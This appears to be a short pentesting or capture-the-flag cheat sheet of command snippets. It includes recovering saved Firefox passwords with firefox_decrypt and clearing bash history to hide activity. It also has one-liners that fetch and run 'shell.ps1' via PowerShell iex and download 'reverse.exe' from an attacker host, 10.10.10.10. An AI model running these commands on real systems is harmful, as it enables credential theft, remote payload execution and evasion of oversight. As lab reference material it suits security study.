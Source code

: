 ## Tmux Tutorial
- [https://leimao.github.io/blog/Tmux-Tutorial/](https://leimao.github.io/blog/Tmux-Tutorial/)
## Decrypting Firefox
Make sure the following files are available
- `cert9.db`
- `key4.db`
- `cookies.sqlite`
- `logins.json`
Use tool [firefox_decrypt](https://github.com/unode/firefox_decrypt) to crack the username and password combination
```nix
python3 firefox_decrypt firefox-profile/
```
## Clearing Bash History
```nix
cat /dev/null > ~/.bash_history && history -c && exit
```
## Create HTTP server with Python
```nix
# Python 2
python -m SimpleHTTPServer 8000

# Python 3
python3 -m http.server 8000
```
## Download file using Base64 trick
Convert the file content into Base64 and save it
```nix
cat file.jpg | base64 > file.b64
```
Decode the Base64 content and save it into a proper file
```nix
cat file.b64 | base64 --decode > file.jpg
```
## Mounting a `/dev` directory to `/mnt`
```nix
sudo mount /dev/suspicious_disk /mnt/amogus
```
## Check a binary's content
```nix
strings binary
```
## Download file on machine
Linux
```nix
wget 10.10.10.10/file -O /tmp/file
```
Windows
```powershell
Invoke-WebRequest -uri 10.10.10.10/file.exe -outfile C:\\\\Windows\\temp\\file.exe
```
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10/shell.ps1');
```
```powershell
powershell -c wget "http://10.10.10.10/reverse.exe" -outfile "reverse.exe"
```
## Using xFreeRDP to access Window Machines
```nix
xfreerdp +clipboard /u:username /p:password /v:10.10.10.10 /size:1280x760
```